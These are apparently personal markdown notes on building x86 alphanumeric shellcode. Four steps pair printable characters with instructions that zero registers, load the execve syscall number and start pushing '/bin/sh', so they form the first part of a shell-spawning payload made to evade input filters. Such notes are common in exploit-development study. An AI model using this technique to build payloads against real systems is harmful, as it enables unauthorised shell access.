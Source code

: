 Draft
---

## Reference
- http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
- turn on markdown syntax in VIM: ```au BufRead,BufNewFile *.md set filetype=markdown```

## [P1] ECX: set to 0
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * 48
P:              PUSH EAX
Y:              POP ECX
```

## [P2] EDX: set to 0
```
P:              PUSH EAX
Z:              POP EDX
```

## [P3] EAX: set to 11 (0x0b)
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * (48-11) = 37
```

## [P4] PUSH 0 ('\0' for string "/bin/sh")
```
R:              PUSH EDX
```
